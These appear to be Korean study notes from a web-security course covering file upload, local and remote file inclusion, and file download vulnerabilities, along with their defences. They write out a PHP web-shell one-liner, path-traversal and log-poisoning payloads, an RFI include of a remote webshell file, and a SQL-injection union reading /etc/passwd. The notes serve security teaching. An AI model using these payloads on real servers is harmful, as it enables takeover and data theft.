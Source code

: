 10주차 리뷰

File Upload .
 
Web shell이 가능하게 하느냐가 문제.

취약점 이유
-> 업로드 되는 파일을 검증하는 것이 없거나 미흡했다.

공격 시나리오   
1. 웹 쉘

웹셀을 업로드할 때 가장 중요한 게 내 파일이 어디에 업로드 되는 지?   
그리고 접근해서 실행하는 것까지 



2. Dos 공격
3. 디페이스 공격. (index.html) index 파일을 업로드해서 메인페이지를 바꿔버리는 공격.
4. 페이지 변조. 피싱 공격. 
5. 악성코드 유포 (XSS)


* 대응 방법!
1. 업로드 되는 파일을 DB에 저장.! 이러면 모든 문제 해결.
문제가 업로드 되는 파일이 웹서버 안에 저장되어 실행되었기에 문제였음.   
DB Table 안에 바이너리 정보로 들어간다면 실행할 수가 없음.
-> CLOB / BLOB

정확하게 말하면 파일 안에 데이터들이 글자로 적혀있는 것일 뿐.

위 방법으로 사용하면 근본적으로 가능하지만 고객마다 불가능한 경우도 존재함.   
그럼 두 번째 방법을 사용 (차선책)

2. NAS   
웹 서버가 아닌 곳에 파일을 따로 저장.   
웹 서버랑 분리되어 있는 서버에는 실행 엔진이 설치되어 있으면 안됌.(php, jsp 등)   
-> 업로드 파일이 저장되는 서버를 웹 서버와 분리 ! (핵심)

근데 NAS도 안된다고 하면? 세번쨰 ㅋㅋ

3. 파일 검증.
- 확장자 검증
- 파일 시그니쳐 검증
- MIME TYPE 검증
등등등...
이런 검증들을 제대로 구현해야 함.



파일 업로드 BLOB / CLOB 구현해서 직접 DB에 어떻게 저장되고 어떻게 출력되는지 확인해봐라


---
** 이미지 웹 쉘.

.jpg 파일을 올려서 웹서버를 장악한다!!

1. .htaccess
2. LFI (Local File Inclusion)

Local File Inclusion
.jpg, .txt 다 가능.

-> 이해하려면 Include 개념을 이해해야 함.


ex)
include($_GET['page'])

/../../../../../../../etc/passwd
하면 


파일을 include 함.
그리고 실행한 다음에 완성된 html을 전달함.

근데 include.php를 include 해버리면 이미 iclude 되어있고 실행되었기 때문에 파일 내용을 볼 수 없음.

그럼 파일 경로 정도만 확인할 수 있나?

하지만 얘는 File Upload의 상위버전임.

파일이 include를 해서 실행되기 떄문에 장점임.




만약에 파일 업로드에 이미지 파일을 업로드함.

1.
맨 뒤에
<?php system($_GET['cmd']); ?>
구문을 붙임.

그리고
/?page=/hackable/uploads/test_image.jpeg&cmd=ls
/?page=/../hackable/uploads/test_image.jpeg&cmd=ls
/?page=/../../hackable/uploads/test_image.jpeg&cmd=ls
계속 내려가면서 해봄.


2.
바이너리 코드를 싹 다 지우고
<?php system($_GET['cmd']); ?>
구문을 붙임.

그리고 다시 경로를 붙여서 확인.





근데 왜 file upload 버전의 상위버전일까?

-- 파일을 업로드 하지 않고도 쉘을 딸 수 있다.! 
LFI 만을 가지고도 가능.

-> log 파일.
access_log 에다가
<?php system($_GET['cmd']); ?>

그럼 이 기록이 access_log에 저장이 되는 거임
그럼 이 로그를 부르기만 하면 되는 것임.

/?page=/../../../../../../opt/lampp/logs/access_log&cmd=ls

이렇기 때문에 파일을 업로드하지 않고도 쉘을 가져올 수 있음.

이건 침투테스트에서 자주 사용되는 방법임.

결국 access_log 위치만 찾으면 가능한 것....


3. RFI
Remote File Inclusion
간혹가다 외부의 자료를 가져와서 include를 해서 보여주는 경우가 있음.

/?page=http://google.com/

만약 이런 경우가 있다?
그럼 바로

/?page=http://yws.com/webshell.txt 
include해서 웹쉘 가능.



---
* File Download 취약점.
: 공격자가 원하는 임의의 파일을 다운로드 할 수 있다.

일반적인 웹서버에 올리고 웹서버에서 다운로드가 가능하다면 file download 취약점은 발생하지 않음.

다만 인가 취약점이 발생할 수 있음.

download.php 파일을 만들어야 함.
그리고 보통 다운로드 할 때 ?file=/../../../../login.php
하면 login.php 소스코드를 가져올 수 있음.

경로를 바꿔줌.

다운로드 취약점 성공하면?
공격자 입장에서는 웹 소스코드를 분석해서 다른 취약점을 찾는다.
db를 탈취한다.

file download, file download2, web shell 3


---
다운로드 스크립트가 어떻게 되어있나 생각해보자.

<?php fileDownload('./files/userName/' .
$_GET['path']);
?>

??? 먼 소리야

1. 웹쉘을 올린다음
2. 다운로드허고
3. 거기서 그 위치를 알아낸 다음에
4. index.php 받아야 하나요?
이건 아님.

그니까 웹쉘을 올릴 필요가 없잖아.
1번은 전혀 쓸모가 없다.





** 실전에서 다운로드 취약점 찾는 팁
1. download 스크립트 있는
download.php

2. 파라미터로 파일 이름을 받는가?
파라미터로 파일 경로를 받는가?
이 2개를 체크해봐야 함.

간혹가다가 이런 경우 있음
download.php?idx=2
파일 경로를 받는 게 아니라 숫자를 받아서 db에서 조회를 해서 그 파일을 가져옴.
결국 취약점을 찾을 필요가 없다. 불가능하기 때문에.

자 그럼
만약..?
인덱스 번호로 다운로드하는 거에서
sql injection이 일어난다면???
다운로드 취약점 가능할 수도 있다.
어떻게 할까?
만약에 
select path from board where idx={}
이런 문구라면? 
idx=0 union select '/etc/passwd' 
이렇게 sql injection을 한다면?
'/etc/passwd' 에 원하는 경로를 찾아서 확인할 수 있겠다.







** 파일 다운로드 취약점 대응방안
1. DB에다가 파일을 올리게 하는 것.

download.php 자체가
select ~~ 하면서 파일을 전달해줄 것임.
서버측 소스코드를 전달해줄 방법이 없어짐.

근본적인 방법!!!!!!

2. NAS 처럼 웹 서버와 분리를 하는 것.

3. 디렉토리 트레버져.(임시방편)
../../../ 자체를 못쓰게 막아버림
오해가 될 수도 있다? 무슨 오해?

세 번째 방법은 권장하지 않음. 우회 가능한 포인트가 있을 수 있기 때문에

그 우회 가능한 포인트가? File Download 2 문제임... 아하..ㅋㅋ


---
과제
1. 파일 업로드 다운로드 기능 구현.
2. 파일 업로드 BLOB / CLOB 구현.
3. CTF Bad File 문제 풀이
-> word 정리. 보고서 쓰듯이. 스스로에게 쓰듯이 정리한다고 볼 수 있게 써라
4. 개발 : 문의 게시판. (비회원), 게시판 비밀번호. 본인만 수정, 삭제할 수 있게 (비회원)
